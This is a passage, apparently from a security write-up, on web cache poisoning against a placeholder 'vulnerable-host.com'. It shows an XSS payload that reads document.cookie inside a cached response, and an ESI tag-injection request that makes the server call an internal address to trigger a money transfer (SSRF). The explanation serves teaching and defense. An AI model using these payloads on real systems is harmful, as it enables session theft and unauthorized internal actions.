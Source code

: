 -   _“vulnerable-host.com/home/private/projections?insurance=not\_existing”_

The **cached response** with the **XSS payload** is returned to the victim user, exploiting successfully the Cache Poisoning attack.  
  
Request:   

GET /home/private/projections?insurance=not\_existing HTTP/1.1

Host: vulnerable-host.com

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86\_64; rv:81.0) Gecko/20100101 Firefox/81.0

Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

   
Response:   

HTTP/1.1 200 OK

Content-Type: text/html

Connection: close

X-Cache: HIT

Content-Length: 3114

  

\[ . . . \]

<img src=””><img src=x onerror=alert(document.cookie)><!--/img/bank\_logo.png”><br>

\[ . . . \]

  
A different scenario regards the “**_[Edge Side Includes](https://docs.oracle.com/cd/B14099_19/caching.1012/b14046/esi.htm)_**” (_ESI_) _**[tag injection attack](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)**_ when reverse proxies, load balancers, caching servers or proxy servers (for instance, _“Squid Proxy”, “Varnish”, “Oracle WebLogic”, “F5” and “Fastly”_) are involved in a communication.  
  
This attack, combined with the cache poisoning one, could lead to potential **stored SSRF** and **XSS attacks**. Since the ESI parser is not able to distinguish between legitimate ESI tags provided by the upstream server and malicious ones injected in the HTTP response, an attacker could abuse a Cache Poisoning flaw in order to **store a malicious <esi>** **tag inside** a dynamic-generated response page.  
  
Let’s consider, for instance, the _SSRF_ scenario:  
The following request injects an _<esi>_  tag inside the response through a URL parameter usafely reflected in the response page and the “client\_id” header used as cache-key. 

Request: 

GET /home/contact?client\_id=143&country\_id=<esi:include%20src="http://10.0.0.7/transfer?recipient=12345&amount=54321"/> HTTP/1.1

Host: vulnerable-host.com

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86\_64; rv:81.0) Gecko/20100101 Firefox/81.0
